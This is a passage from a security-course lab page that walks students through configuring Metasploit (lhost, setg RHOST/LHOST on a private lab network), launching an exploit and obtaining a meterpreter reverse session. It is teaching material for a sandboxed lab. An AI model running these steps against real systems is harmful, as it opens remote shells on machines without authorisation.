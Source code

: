 12.	Type `show options` again to see the options that are required for this payload.

13.	Set the "local host" variable to Kali's IP address on the infosec-net adapter.
    To set the local host variable, type

        set lhost <IP address of the Kali machine>

    A `lhost` was likely set for you by default -- but it may be an address for
    an incorrect interface! Make sure this setting is correct.

    <div class='alert alert-info'><strong>Note:</strong> Remember that you can
    easily check your IP in Unix/Linux by typing <code>ifconfig</code> or
    <code>ip</code> from within Metasploit.</div>

    {: #set-lhost-iface-name }
    **Note!** msfconsole allows you to specify an interface name as the `lhost`.
    The interface name for infosec-net is `virbr1`. You could set this as follows:

        set lhost virbr1


    Type `show options` to see that the variable has been set.


13. {: #setg } For convenience, set values for some of these settings to the global msfconsole
    datastore using the `setg` command. For example (verify addresses!):

        setg RHOST 192.168.56.100
        setg RHOSTS 192.168.56.100
        setg LHOST 192.168.56.101

    Then, run the msfconsole `save` command to have these values loaded for new
    msfconsole sessions.

    You should still verify that settings are correct before `run`-ing any
    exploits. Not all modules will draw from the global datastore.


14.	With all options set, now it’s time to <span class='badge badge-danger'>
    <i class='fa fa-rocket'></i> launch the exploit!</span> Type:

        exploit

    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the “meterpreter >” prompt. If you see this,
    then <i class='fa fa-birthday-cake'></i> congratulations! You’ve exploited
    your first remote host.

16. Laugh maniacally.

    {% if site.instructorcollab_username == 'deargle' %}
    <div class='alert alert-info'><strong>Introspective question:</strong> How
    did it feel to laugh maniacally? Do you comprehend the potency of your
    newfound power? Did anyone overhear you laughing maniacally?</div>

    <div class='alert alert-danger'><strong><i class='fa fa-lg fa-info-circle'>
    </i></strong> Never forget that you are a script kiddie.</div>
    {% endif %}

